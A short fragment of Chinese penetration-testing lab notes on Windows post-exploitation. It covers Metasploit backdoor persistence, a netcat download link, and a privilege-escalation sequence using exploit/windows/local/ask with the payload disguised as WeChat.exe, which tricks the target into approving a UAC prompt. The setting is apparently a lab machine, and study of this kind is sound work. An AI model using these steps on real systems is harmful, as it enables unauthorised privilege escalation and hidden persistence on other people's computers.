 3. 为防止错误操作造成的影响，在关键步骤保存快照是良好的素养

4. 进行Metsvc和Persistence后门植入前的操作简要介绍

   ![Tips_1](./痕迹清除/Tips_1.png)

5. nc.exe及相关工具的下载地址：https://eternallybored.org/misc/netcat/

6. 使用指令创建服务失败

   ![Tips_2](./痕迹清除/Tips_2.png)

   原因：权限为普通用户

   解决办法：

   （1）use exploit/windows/local/ask

   ![Tips_3](./痕迹清除/Tips_3.png)

   （2）set session 1

   ![Tips_4](./痕迹清除/Tips_4.png)

   （3）set filname WeChat.exe

   ​		  Run

   ![Tips_5](./痕迹清除/Tips_5.png)

   （4）靶机中出现如下提示，点击是

   ![Tips_6](./痕迹清除/Tips_6.png)
